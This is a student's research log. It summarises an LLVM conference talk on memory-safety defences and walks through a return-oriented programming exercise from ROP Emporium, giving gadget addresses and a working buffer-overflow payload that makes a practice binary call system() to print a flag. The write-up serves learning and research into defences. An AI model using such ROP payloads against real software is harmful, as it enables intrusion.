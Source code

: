 # Weeks Of 10/15 and 10/22 Research Update
Hello again. I've decided to combine my last two weeks of research, mainly because I had a relatively light week on the week of the 15th. This was the week of the LLVM Developers conference, so in many ways I guess I was still researching. Nonetheless, I combined the last two weeks together to produce a more substantial update. Outside of the LLVM cofnerence, I played around with some more exploitables and started diving into clang's source code by building LLVM on my host machine

## LLVM Developer Meetup
I recentyl got the opportuninty to attend the LLVM dveloper meetup. There I got the opportunity to attend various technical talks, interact with the community, and ask some prominent questions regaurding my research project. 


<p align="center">
  <img src ="https://i.imgur.com/31pNYRj.png?1" />
</p>

I'll try to sum up some of the more important (and relavant things I learned) here. I was able to attend a talk about the future of C++ where Michael Wong discussed the future of the language, it's compilation, and what to prepare for with C++ 20. There was also an interactive tutorial which covered how to build a backend code generator for a RISC-V architecture. This may prove usefull since I'm about to dive into the LLVM backend source in the following weeks. The most prevalant talk I attended was about C/C++ safety and preventing memory-based attacks (like ROP!). In this talk, Kostya mentioned that ~50% of high chritical security bugs in Chrome and Andrpoid are memory safety bugs. Things like ROP attacks and buffer overflows remain ever prevalant in industry excecutbales.

<p align="center">
  <img src ="https://i.imgur.com/7LRZSq9.jpg" />
</p>

He then goes on to describe a memory tagging technique that we can build right into software. Essentially if a pointer points to a spot in memory you tag the stack entry and the spot in memory. For example purpose assume you tag both with the letter A. Thus, if the pointer is changed, it won't point to a memory adress with an "A" tag, and the system will stop, throwing an exception. This is an interesting approach to memory safety and may be something to explore in the future. He mentioned that there is specific hardware that manufacturues are working on to help make this process easier. This talk actually lead to some interesting conversations with other people at the conference. Ultimately, I've learned that there's really two approaches to preventing ROP attacks: 
1.) We can make ROP gadgets harder to find, thus limiting the amount of code that can be exploited with "ease"
2.) We can implement some method to make manipulation harder once an attacker has access to the stack. This is the approach that Kostya discussed with his C/C++ memory safety talk.

For the purpose of this project, I'm going to focus on making gadgets harder to find. If time permits towards the end, I might be able to circle back and examine memory safety techniques we could implement in software. This would require a considerable amount of extra research I would assume.


## Yet Another Exploitable
I spent much of my time examining another exploitable file from [ROPEmpoium](https://ropemporium.com/guide.html). This time, the goal was to call an unintended function with a paramater. I wanted to call the [system()](http://www.cplusplus.com/reference/cstdlib/system/) function with the "/bin/cat flag.txt" argument. This requires significant manipulation of the stack as I found out. I'll spare you a tutorial this time, but if you're interested feel free to check out my last write up [here](https://github.com/justiceadamsUNI/ROP-research-documentation/blob/master/Week-of-10-1-update.md). Just like previously, there's too much being written to a buffer, thus we can use a buffer overflow as our point of entry. Consider the stack, what we want is to put the argument needed into the correct register, then call the system() function

```
|---------------------------|             |---------------------------------|
|       ............        |             |                                 |
|---------------------------|             |---------------------------------|
|       ............        |             |                                 |
|---------------------------|   -----\    |---------------------------------|
|       OTHER STUFF         |   -----/    |         System() address        |
|---------------------------|             |---------------------------------|
|       OTHER STUFF         |             | Address to String to use as arg |
|---------------------------|             |---------------------------------| 
| Return Address to Exploit |             | Adress to pop rdi; ret; gadget  |
-----------------------------             -----------------------------------
```
We use the `pop rdi; ret;` gadget to pop the String argument on the stack into the `%rdi` register, which will be used as a function paramater to the call to system().
```
"Additionally, %rdi, %rsi, %rdx %rcx, %r8, and %r9 are used to pass the first six integer
or pointer parameters to called functions" - CS Brown x64 cheatsheet
```
Now, we actually have to find those adresses. Using rare2d I was able to find the adress of System() and I was able to analzye all variables loaded in memory and found an adress for a string variable which has exactly what we want.

<p align="center">
  <img src ="https://i.imgur.com/VYRX8e8.png" />
</p>
Address of the `System()` call is `0x004005e0`

<p align="center">
  <img src ="https://i.imgur.com/xDJUeQf.png" />
</p>

Address of the string variable is `0x00601060`. The last thing to do is find the gadget we need. I used a tool called [ropper](https://github.com/sashs/Ropper) to do this part. It made it incredibly easy to actually find the gadgets, and I'll definitely be using this in the coming weeks.

<p align="center">
  <img src ="https://i.imgur.com/xR64Nsp.png" />
</p>

Using this tool, I was able to find that the address to the gadget is `0x00400883`!

Thus, putting this all together I'm able to write into the buffer using the same formula as last time: 
```
python -c 'print("X"*40 + "\x83\x08\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\xe0\x05\x40\x00\x00\x00\x00\x00")' | ./split1
```
And our result is what we expect! Note: This did not work on a windows machine using [WSL](https://docs.microsoft.com/en-us/windows/wsl/install-win10). I had to finish my hacking at work on a true lnux machine to get things to work. I'm going to stop doing these excersises due to the fact that they don't work on Windows. Also, I've pretty much learned everything I need so far. It's become much clearer how to use these gadgets after doing this excersise.

## Building LLVM
I also managed to build LLVM from the open source git branch using the visual studio 2017 compiler. Next week, I'm planning on diving into some back-end code. Someone from the conference told me that the [Kaladiescope](https://llvm.org/docs/tutorial/) tutorial might be a good place to start, but stay tuned.

## For Next Week
- Dive into the LLVM/clang back end code and see where exactly assembly instructions are generated.
- Research techniques for preventing ROP gadgets from detectabliity (no-op instructions?)
- Use the ROP tools mentioned above to analyze some industry executables, maybe a game if I can get my hands on a sample.
- Check out the Kaladiescope tutorial to see if there's anything of interest that could help there.

## Sources for this week
### Information sources:
- [PwnTools](https://github.com/Gallopsled/pwntools)
- [x86 Call/Return Protocol - University of Wisconsin](http://pages.cs.wisc.edu/~remzi/Classes/354/Fall2012/Handouts/Handout-CallReturn.pdf)
- [x64 Cheat Sheet - Brown University](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)
- [Ropper](https://github.com/sashs/Ropper)
- [Radare2 cheatsheet](https://gist.github.com/williballenthin/6857590dab3e2a6559d7)
- [Split challenge](https://ropemporium.com/challenge/split.html)
- [Abatchy Split Solution](https://github.com/abatchy17/ROP-Emporium/blob/master/split/split64.py)

### Image Sources
- https://twitter.com/llvmorg/status/1052634914657468416
